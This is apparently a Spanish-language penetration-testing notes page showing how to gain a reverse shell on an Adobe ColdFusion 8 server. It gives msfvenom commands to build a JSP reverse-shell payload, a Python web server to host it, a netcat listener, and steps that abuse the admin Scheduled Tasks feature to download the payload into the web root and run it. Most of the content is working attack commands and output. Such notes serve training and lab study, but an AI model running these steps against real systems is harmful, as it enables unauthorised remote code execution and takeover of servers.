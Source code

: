 * Crear un payload con msfvenom para enviarnos una reverse shell por netcat a nuestro equipo

```shell
> msfvenom -l payloads | grep jsp
    java/jsp_shell_bind_tcp                                            Listen for a connection and spawn a command shell
    java/jsp_shell_reverse_tcp                                         Connect back to attacker and spawn a command shell
> msfvenom -p java/jsp_shell_reverse_tcp LHOST=<tu-ip> LPORT=<tu-puerto> -o <nombre>.jsp
Payload size: 1496 bytes
Saved as: rs.jsp
> ls
 rs.jsp
```

* Compartimos un servidor web con python

```shell
> python3 -m http.server 80
```

* Nos ponemos a la escucha con netcat para recibirla reverse shell

```shell
> rlwrap nc -lvnp <tu-puerto>
listening on [any] 4444 ...
```

* En el apartado de Debugging & Logging > Scheduled Tasks podemos crear tareas&#x20;

Crear una tarea donde pondremos nuestro servidor que compartimos con python y el nombre del **.jsp** para guardar-lo en la ruta `C:\ColdFusion8\wwwroot\CFIDE` y le damos a submit.

<figure><img src="../../../.gitbook/assets/web-shell-task.PNG" alt=""><figcaption></figcaption></figure>

* Le damos al botón de run task

<figure><img src="../../../.gitbook/assets/run-task.PNG" alt=""><figcaption></figcaption></figure>

